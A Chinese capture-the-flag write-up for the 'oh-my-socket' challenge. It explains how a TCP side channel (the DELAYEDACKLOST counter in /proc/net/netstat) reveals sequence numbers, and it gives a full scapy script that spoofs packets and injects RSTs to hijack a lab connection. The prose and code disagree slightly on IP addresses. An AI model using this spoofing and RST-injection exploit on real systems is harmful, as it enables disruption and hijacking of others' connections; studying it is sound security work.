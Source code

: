# oh-my-socket-ZH

这是一道关于TCP侧信道的题，idea来源于钱志云老师的几篇关于TCP侧信道的论文，大家有兴趣的可以去[钱老师主页](https://www.cs.ucr.edu/~zhiyunq/publications.html)看一下，那首先我们来看一下这道题目。

给出的Docker环境中包含有三个容器，其中一台client主机和server主机两者建立了tcp通信，并在建立通信以后两者都处于等待状态，相互之间没有发送数据包，server主机上有flag，向server发送字符`*ctf`就可以获得flag，同时client主机上还提供一个任意文件读的功能。第三台主机提供了一个任意Python文件执行的功能，并同时提前安装了scapy库。

梳理下来有以下信息，client ip(172.21.0.2)、client port(7775)、server ip(172.21.0.2)、server port(21587)、client上的任意文件读、一台同一子网的预装了scapy库的机器任意代码执行。

那其实现在思路就比较直接了，想办法能打断client和server的通信，然后在和server连接上发送`*ctf`就可以获得flag了。最直接的思路就是构造RST攻击，并且现在我们已经了所有通信的IP和PORT，那就只需要再确定seq值就可以了，显然两分钟的执行时间内是不够我们爆破所有seq值的，所以得寻找到更加巧妙的办法。

根据上述论文中提到的侧信道方法，在我们伪装成server向client发送数据包的时候，假如此次发送的数据包seq值是小于预期要接收的seq值的话，Linux操作系统中和TCP有关的一个计时器DELAYEDACKLOST会加1，而这个计时器在`/proc/net/netstat`中可以找到，那么此时我们的攻击思路就比较明确了，伪装成server向client发送通信数据包，并同时检索DELAYEDACKLOST值的变化情况，以此作为依据来做二分查找，这样可以在很快的时间内确定seq值预期范围，然后向server主机发送RST包打断通信，最后连接上server就可以获得flag了。

参考exp如下:

```
from scapy.all import *
import requests
from socket import *


def send_ack(seq):
    TCPLayer = TCP(sport=21587, dport=7775, flags='A', seq=seq, ack=3521354383)
    IPLayer = IP(src='172.21.0.2',dst='172.21.0.3')
    data = 'flag'
    pkt = IPLayer/TCPLayer/data
    send(pkt, verbose=0)


def send_bye(seq):
    TCPLayer = TCP(sport=7775, dport=21587, flags='A', seq=seq, ack=3521354383)
    IPLayer = IP(src='172.21.0.3',dst='172.21.0.2')
    data = 'flag'
    pkt = IPLayer/TCPLayer/data
    send(pkt, verbose=0)


def get_num():
    url = 'http://172.21.0.3:5000/file?name=/proc/net/netstat'
    r = requests.get(url=url)
    data = r.text.split('\n')[1]
    num = data.split(' ')[19]
    return num


def send_rst(seq):
    TCPLayer = TCP(sport=21587, dport=7775, flags='R', seq=seq, ack=3521354383)
    IPLayer = IP(src='172.21.0.2', dst='172.21.0.3')
    data = 'flag'
    pkt = IPLayer / TCPLayer / data
    send(pkt, verbose=0)


def connect():
    HOST = '172.21.0.2'
    PORT = 21587
    BUFSIZ = 1024
    ADDR = (HOST, PORT)

    tcp_socket = socket(AF_INET, SOCK_STREAM)
    tcp_socket.connect(ADDR)
    data = '*ctf'
    tcp_socket.send(data.encode())
    resp = tcp_socket.recv(BUFSIZ)
    if resp:
        print(resp.decode('utf-8'))

    tcp_socket.close()

min = 0
max = 4294967296
a = int(get_num())

while abs(max - min) > 1:
    mid = (max + min) // 2
    send_ack(mid)
    num = int(get_num())

    if num - a == 1:
        min = mid
        a = num
    else:
        max = mid

ans = max

# start to rst attack
for i in range(ans - 30, ans + 30):
    send_rst(i)

# start connect to server
send_bye(ans)
connect()
```